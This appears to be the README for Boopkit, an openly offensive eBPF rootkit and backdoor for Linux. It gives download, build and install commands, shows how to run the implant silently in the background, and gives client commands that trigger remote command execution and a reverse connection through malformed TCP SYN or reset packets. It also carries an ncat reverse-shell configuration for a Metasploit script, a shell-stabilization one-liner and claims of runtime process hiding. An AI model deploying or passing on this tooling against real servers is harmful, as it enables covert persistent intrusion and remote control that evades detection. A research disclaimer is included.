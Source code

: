 # Boopkit

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.0.5.tar.gz
tar -xzf v1.0.5.tar.gz 
cd boopkit-1.0.5/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background without output

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit &> /dev/null &
```

Boopkit is now running and will automatically try to reverse connect to any source that is booping the server!

## Client Side

Download and build boopkit.

```bash
git clone https://github.com/kris-nova/boopkit.git
cd boopkit
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -x "$RCE"
```

# Remote Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                             data                              |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. In theory this would work against a server that has no TCP services listening!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
# Remote values
RHOST="127.0.0.1"
RPORT="22"
# Local values
LHOST="127.0.0.1"
LPORT="3535"
# NetCat Reverse Shell Values
NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang'
 - `bpftool`
 - 'llvm'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
